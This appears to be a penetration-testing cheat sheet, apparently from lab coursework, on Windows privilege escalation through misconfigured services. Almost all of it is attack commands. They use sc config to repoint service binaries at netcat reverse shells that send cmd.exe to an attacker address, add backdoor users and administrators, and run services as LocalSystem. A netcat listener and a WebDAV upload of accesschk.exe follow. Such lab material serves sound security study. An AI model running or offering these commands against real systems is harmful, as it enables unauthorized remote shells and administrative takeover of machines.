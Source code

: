 https://toshellandback.com/2015/11/24/ms-priv-esc/

sc qc Spooler

sc qc SSDPSRV

sc qc upnphost

#### modify properties of services

sc config SSDPSRV binpath= "C:\Inetpub\Scripts\nc.exe -nv *ipaddress* 9988 -e C:\WINDOWS\System32\cmd.exe"

sc config SSDPSRV binpath= "net user hacker Passw0rd123! /add"

sc config SSDPSRV start ="auto"

sc start SSDPSRV

sc config upnphost depend= ""

sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe -nv *ipaddress* 9988 -e C:\WINDOWS\System32\cmd.exe"

sc config upnphost binpath= "net user hacker P@ssw0rd123! /add"

sc config upnphost binpath= "net localgroup Administrators pwnage /add"

sc config upnphost obj= ".\LocalSystem" password= ""

sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe -nv *ipaddress* 9988 -e C:\WINDOWS\System32\cmd.exe"

nc -lvp 9988

net start upnphost

#### start and stop services with sc

These Windows services are started:

net start *service*

net stop *service*


#### Accesschk upload example with davtest and netcat

```
./davtest.pl -URL http://*ipaddress*/Scripts -uploadfile /root/pwk_recon/mal_files/priv_esc/accesschk/accesschk.exe -uploadloc accesschk.exe.txt


nc 10.11.1.13 80 -vv
COPY /Scripts/accesschk.exe.txt HTTP/1.1
HOST: 10.11.1.13
Destination: http://*ipaddess*/scripts/accesschk.exe
Overwrite: T

```
